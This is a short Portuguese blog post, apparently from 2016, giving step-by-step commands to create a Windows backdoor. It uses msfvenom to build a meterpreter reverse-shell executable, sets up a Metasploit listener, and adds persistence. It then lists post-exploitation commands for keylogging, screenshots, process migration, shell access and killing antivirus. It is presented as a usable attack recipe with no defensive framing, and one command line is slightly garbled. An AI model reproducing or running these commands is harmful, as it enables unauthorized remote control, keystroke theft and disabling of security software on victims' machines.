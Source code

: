 ```yaml
---
layout: post
title: Criando BackDoor no Windowns
date: 2016-07-12T14:54:44.000Z
---
```

<img src='/images/fulls/back.jpg'>

-Comandos para criar a backdoor:

```msfvenom -p windows/meterpreter/reverse_tcp 192.168.0.104LHOST=(SeuIP) LPORT=443 -f exe > /root/Desktop/shell.exe```

-Comandos para configurar o modo Listening:

```msfconsole```

```use exploit/multi/handler```

```set payload windows/meterpreter/reverse_tcp```

```set lhost (Seu IP)```

```set lport 443```

exploit

-Comando manutenção de acesso:

```run persistence -A -X -i 60 -p 443 -f (Seu IP)```

Comandos do  meterpreter pra brinca 

Para obter ajuda das funções do Meterpreter.
```meterpreter > help```

Para finalizar a sessão e sair do Meterpreter.
```meterpreter > exit```

Ás vezes sera necessauro manter a sessão ativa do Meterpreter  para outras finalidades, 
para usar um modulo auxiliar por exemplo.
```metrpreter > background```

Migrar para outro processo:
```meterpreter > run migrate -f```

Obter shell:
```meterpreter > shell```

Executar um programa:
```execute -f calc.exe```

Keylogger.
```
meterpreter > keyscan_start INICIA O KEYLOGGER
meterpreter > keyscan_dump EXIBE AS TECLAS DIGITADAS
meterpreter > keyscan_stop FINALIZA O KEYLOGGER
```
Captura de tela.

```meterpreter > screenshot```

Finalizar processo de antivirus.

```meterpreter > run killav```

<a href="https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/">Mais comandos.</a>


